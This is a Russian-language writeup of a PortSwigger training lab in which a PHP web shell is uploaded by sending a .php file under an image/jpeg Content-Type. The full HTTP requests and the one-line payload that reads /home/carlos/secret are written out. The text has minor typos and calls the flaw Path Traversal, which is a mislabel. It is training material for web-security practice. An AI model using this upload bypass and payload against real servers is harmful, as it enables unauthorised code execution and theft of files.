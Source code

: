 ```yaml
---
title: "Web shell upload via Content-Type restriction bypass"
date: 2025-08-07
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/file-upload-apprentice/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass"
classes: wide
---
```


Эта лаборатория содержит ~~меня в заключении~~ **уязвимость в загрузке файлов**, которые приводит к **Path Traversal**. Сервер пытается запретить пользователям загружать файлы непредвиденных типов, но для проверки подаются входные данные, управляемые пользователем.

Для решения лабораторной работы нужно загрузить базовую веб-оболочку PHP и использовать ее для извлечения содержимого файла `/home/carlos/secret`.

Для входа даны креды: `wiener:peter`.

```
https://0a66008a034946bc80829ea600770056.web-security-academy.net/
```

## Solution

Для начала залогинимся в свой аккаунт.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_Content-Type_restriction_bypass/1.png){: height="200" .align-center}

Мы видим функцию загрузки аватара. Из условия лабы мне известно, что она уязвима. Попробую загрузить фотку моей кошки)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_Content-Type_restriction_bypass/2.png){: height="200" .align-center}

Она успешно была загружена с помощью следующего запроса:3

```http
OST /my-account/avatar HTTP/2
Host: 0a66008a034946bc80829ea600770056.web-security-academy.net
Cookie: session=DBk7A2HKKUevqloZ85jEImxsTXiEZwPJ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a66008a034946bc80829ea600770056.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundarya63a36a7661691f5af58caea0ff6e16d
Content-Length: 50510
Origin: https://0a66008a034946bc80829ea600770056.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundarya63a36a7661691f5af58caea0ff6e16d
Content-Disposition: form-data; name="avatar"; filename="cat.jpg"
Content-Type: image/jpeg

...

------geckoformboundarya63a36a7661691f5af58caea0ff6e16d
Content-Disposition: form-data; name="user"

wiener
------geckoformboundarya63a36a7661691f5af58caea0ff6e16d
Content-Disposition: form-data; name="csrf"

Gm1o2X2rtPRvsllWcciUiLdiBxaIJ2Wz
------geckoformboundarya63a36a7661691f5af58caea0ff6e16d--
```

Попробую заменить тело запроса, заменив картинку на следующий `php` код: `<?php echo file_get_contents('/home/carlos/secret'); ?>`. Так же замению расширение файла на `.php`:

```http
POST /my-account/avatar HTTP/2
Host: 0a66008a034946bc80829ea600770056.web-security-academy.net
Cookie: session=DBk7A2HKKUevqloZ85jEImxsTXiEZwPJ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a66008a034946bc80829ea600770056.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundarya63a36a7661691f5af58caea0ff6e16d
Content-Length: 521
Origin: https://0a66008a034946bc80829ea600770056.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundarya63a36a7661691f5af58caea0ff6e16d
Content-Disposition: form-data; name="avatar"; filename="cat.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
 
------geckoformboundarya63a36a7661691f5af58caea0ff6e16d
Content-Disposition: form-data; name="user"

wiener
------geckoformboundarya63a36a7661691f5af58caea0ff6e16d
Content-Disposition: form-data; name="csrf"

Gm1o2X2rtPRvsllWcciUiLdiBxaIJ2Wz
------geckoformboundarya63a36a7661691f5af58caea0ff6e16d--
```

Запрос успешно был выполнен. Открою аватар в отдельном окне.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_Content-Type_restriction_bypass/3.png){: height="200" .align-center}

А вот и необходимый код:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_Content-Type_restriction_bypass/4.png){: height="200" .align-center}
